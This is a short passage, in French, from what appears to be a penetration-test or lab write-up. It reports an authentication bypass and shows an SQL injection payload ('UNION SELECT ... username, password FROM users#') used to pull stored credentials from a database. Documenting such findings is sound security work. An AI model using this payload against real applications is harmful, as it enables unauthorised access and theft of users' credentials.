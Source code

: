 ![alt text](image-27.png)

Il a été possible de contourner l’authentification et d’accéder directement à l’application.  

##### 2. Exfiltration d’identifiants (SQL Injection – UNION SELECT)
Une injection plus avancée a permis d’exfiltrer les identifiants stockés en base de données :  
```sql
' UNION SELECT null, null, username, password FROM users#
```